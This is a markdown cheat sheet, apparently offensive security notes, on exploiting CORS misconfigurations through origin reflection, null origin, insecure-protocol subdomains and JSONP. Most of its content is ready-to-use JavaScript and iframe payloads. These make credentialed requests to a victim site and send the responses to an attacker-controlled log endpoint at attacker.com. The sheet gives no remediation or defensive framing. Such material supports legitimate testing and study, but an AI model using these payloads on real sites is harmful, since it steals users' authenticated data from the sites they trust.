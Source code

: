 ```yaml
---
title: Cross-Origin Resource Sharing (CORS) Attack
desc: 
tags: [Burp Suite, CORS, Web]
alts: []
render_with_liquid: false
---
```


## 1. Origin Reflection

1. **Change Origin Value of Request Header**

    ```sh
    Origin: https://attacker.com
    ```

    ```sh
    Origin: https://vulnerable.com.attacker.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    It's reflected the previous reqeust in the response header, you can exploit it.

    ```sh
    Access-Control-Allow-Origin: https://attacker.com
    ```

    ```sh
    Access-Control-Allow-Origin: https://vulnerable.com.attacker.com
    Access-Control-Allow-Credentials: true
    ```

3. **Exploit with Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit" or "https://vulnerable.com.attacker.com/exploit".  
    Add the JavaScript code in the web page.  

    It shows the users' sensitive information of the target website in your server's log.

    ```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://vulnerable.com/details', true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location = '/log?key=' + this.responseText;
        }
    </script>
    ```

<br />

## 2. Null origin

1. **Send Request with Origin: null**

    ```sh
    Origin: null
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true
    ```

3. **Add the iframe to Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit".

    ```html
    <iframe
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('GET', 'https://vulnerable.com/details', true);
            req.withCredentials = true;
            req.send();
            
            function reqListener() {
                location = 'https://attacker.com/log?key=' + encodeURIComponent(this.responseText);
            }
            </script>"
    ></iframe>
    ```

<br />

## 3. Insecure Protocol

1. **Send Request with Abbused Origin**

    ```sh
    Origin: http://subdomain.vulnerable.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: http://subdomain.vulnerable.com
    Access-Control-Allow-Credentials: true
    ```

3. **Add the JavaScript Code to Your Malicious Web Page**

    It's hosted as "https://attacker.com/exploit"

    ```html
    <script>
        document.location="http://subdomain.vulnerable.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable.com/details',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker.com/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
    ```

<br />

## 4. JSONP (Json with Padding)

```html
<script>
	var userinfo = function (data) {
		alert(JSON.stringify(data));
	}
</script>
<script src="https://vulnerable.com/example.php?value=userinfo" type="text/javascriipt"></script>
```